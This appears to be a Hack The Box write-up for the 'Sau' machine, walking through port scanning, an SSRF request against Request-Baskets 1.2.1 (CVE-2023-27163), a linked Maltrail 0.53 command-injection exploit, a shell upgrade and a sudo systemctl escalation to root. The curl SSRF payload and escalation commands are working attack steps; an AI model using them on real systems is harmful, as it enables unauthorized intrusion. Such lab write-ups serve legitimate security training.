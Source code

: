 ```yaml
---
title: HTB - Sau
date: 2024-01-06 00:00:00 + 1000
categories: [CTF,HTB]
tags: [htb,command-injection,cve-2023-27163,ssrf,request-baskets]
comments: false
---
```


Sau is easy rated Hack The Box machine, Sharing a walkthrough based on notes I took a while back. They might be a bit rough, but hopefully still helpful! 

## Common Enumeration 
### Nmap
I started by running an `nmap -p- -sC -sV -oA recon/nmap --open 10.10.11.224` scan which found two open ports:

- Port 22 (SSH)
- Port 55555

```bash
$ nmap -p- -sC -sV -oA recon/nmap --open 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up (0.26s latency).
Not shown: 55545 closed tcp ports (reset), 9988 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 27 Dec 2023 08:29:14 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request                                                                                                                                         
|   GetRequest:                                                                                                                                       
|     HTTP/1.0 302 Found                                                                                                                              
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 27 Dec 2023 08:28:37 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 27 Dec 2023 08:28:38 GMT
|_    Content-Length: 0

```

### Service Enumeration on Port 55555

On port 55555, I found that the service running is `Request-Basket` version 1.2.1.

![img](/assets/img/Sau/Pastedimage20231227200243.webp)

### Vulnerability Discovery and Exploitation

After some googling, I found that `Request-Basket` version 1.2.1 is vulnerable to Server-Side Request Forgery (SSRF) identified as [CVE-2023-27163](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3). This can be exploited via the `/api/baskets/{name}` endpoint. I created a new basket named `testing123`.

```bash
curl -X POST -d '{"forward_url": "http://127.0.0.1:80/login","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 250}' -H
'Content-Type: application/json' http://10.10.11.224:55555/api/baskets/testing123 -v
```

![img](/assets/img/Sau/Pastedimage20231227205610.webp)

To verify if the forwarding worked, I ran the following `curl` command:

```bash
curl http://10.10.11.224:55555/testing123 -v
```

This found that the server is running `Maltrail` version 0.53.

![img](/assets/img/Sau/Pastedimage20231227205759.webp)
### Exploiting Maltrail for Remote Code Execution

I found a [weaponized exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) for `Maltrail` v0.53 that leverages an unauthenticated OS command injection vulnerability in the `username` parameter

![img](/assets/img/Sau/Pastedimage20231227211104.webp)

Using this exploit, I was able to gain a shell as the `puma` user.

![img](/assets/img/Sau/Pastedimage20231227211027.webp)

## Shell as puma

I upgraded my shell using Python to make it more stable:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

### User Flag Capture

Got the `user.txt` flag

```text
puma@sau:~$ cat user.txt                                                                                                                                         
86****************************e8
```

## Privilege Escalation

For privilege escalation, I first checked for any low-hanging fruit. I found that the `puma` user could run `/usr/bin/systemctl status trail.service` with sudo permissions. So, I ran the command with sudo privileges:

```bash
sudo /usr/bin/systemctl status trail.service
```

![img](/assets/img/Sau/Pastedimage20231227212311.webp)

### Root Flag

Then, got the `root.txt` flag

```text
# cat /root/root.txt
26****************************02
```

